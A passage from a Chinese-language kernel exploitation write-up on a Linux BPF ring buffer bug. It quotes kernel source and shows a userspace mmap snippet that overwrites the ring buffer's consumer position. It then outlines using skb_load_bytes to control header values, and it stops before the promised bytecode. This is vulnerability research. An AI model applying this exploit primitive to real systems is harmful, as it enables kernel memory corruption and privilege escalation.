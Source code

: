 `ringbuf_map_mmap_kern()` 會 map ring buffer，但不是直接 mapping 整個 `bpf_ringbuf` object，而是多做了一些處理跟檢查：1. 只有 consumer position 可以被修改，producer position 與 data 只能讀 [1]，2. `bpf_ringbuf` object 的第一個 page 不會被 map，也就是會從 `RINGBUF_PGOFF` 開始 [2]。

```c
// kernel/bpf/ringbuf.c
static int ringbuf_map_mmap_kern(struct bpf_map *map, struct vm_area_struct *vma)
{
    struct bpf_ringbuf_map *rb_map;

    rb_map = container_of(map, struct bpf_ringbuf_map, map);

    if (vma->vm_flags & VM_WRITE) {
    if (vma->vm_pgoff != 0 || vma->vm_end - vma->vm_start != PAGE_SIZE) // [1]
        return -EPERM;
    }

    // [...]
    return remap_vmalloc_range(vma, rb_map->rb,
            vma->vm_pgoff + RINGBUF_PGOFF); // [2]
}
```

因此 userspace program 只要直接 mmap ringbuf 大小 0x1000 [3]，就可以修改 customer position 成任意值 [4]。

```c
void *consumer_pos = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ringbuf, 0); // [3]
*(unsigned long *)consumer_pos = 0x3000; // [4]
```

除了第二個步驟外的操作都很直觀，就按照說明寫 bytecode 而已。構造好 BPF program 後，最後就能在 `bpf_ringbuf_commit()` 使用到被蓋寫後的 header，產生與預期不同的執行流程。



### Exploit

不過 ring buffer 初始值都會是 0，如果要準確控制 header value 的話，需要想辦法寫資料到 ring buffer 當中。根據不同種類的 BPF program 會有不同的 helper 可以使用。當 program type 為 `BPF_PROG_TYPE_SOCKET_FILTER` 時，可以透過 `sk_filter_func_proto()` 的實作知道哪些 helper 是可以用的，並從中找出可以把資料寫到 ring buffer 的 helper。

```c
// net/core/filter.c
static const struct bpf_func_proto *
sk_filter_func_proto(enum bpf_func_id func_id, const struct bpf_prog *prog)
{
    switch (func_id) {
    case BPF_FUNC_skb_load_bytes:
        return &bpf_skb_load_bytes_proto;
        // [...]
    }
}
```

我選的是 helper `BPF_FUNC_skb_load_bytes`，該 helper 能夠複製 packet payload 到 buffer 中，所以可以透過寫入 socket 的內容來控 header，範例的 bytecode 如下：
